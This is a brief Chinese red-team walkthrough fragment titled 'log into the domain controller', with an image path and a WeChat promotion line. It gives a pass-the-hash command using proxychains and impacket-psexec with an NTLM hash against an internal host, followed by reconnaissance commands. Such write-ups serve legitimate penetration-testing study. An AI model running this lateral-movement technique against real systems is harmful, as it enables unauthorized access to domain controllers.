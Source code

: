 登录域控

```armasm
proxychains -q impacket-psexec -hashes 00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240
whoami
hostname
ipconfig
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
